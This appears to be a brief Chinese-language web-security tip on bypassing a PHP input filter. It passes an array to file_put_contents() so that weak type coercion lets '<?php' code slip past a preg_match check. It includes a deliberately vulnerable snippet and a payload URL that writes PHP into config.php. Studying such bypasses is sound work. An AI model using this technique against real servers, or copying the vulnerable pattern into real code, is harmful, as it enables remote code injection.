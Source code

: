 file_put_contents()在写入文件时的第二个参数可以传入数组，如果是数组的话，将被连接成字符串再进行写入。在正则匹配前，传入的是一个数组。得益于PHP的弱类型特性，数组会被强制转换成字符串，也就是Array，Array肯定是满足正则\A[ _a-zA-Z0-9]+\z的，所以不会被拦截。这样就可以绕过类似检测“<?”之类的waf

```
<?php
$text = $_GET['text'];
if(preg_match('[<>?]', $text)) {
    die('error!');
}
file_put_contents('config.php', $text);
```

killnc.php?text[0]=%3C&text[1]=?php%20phpinfo();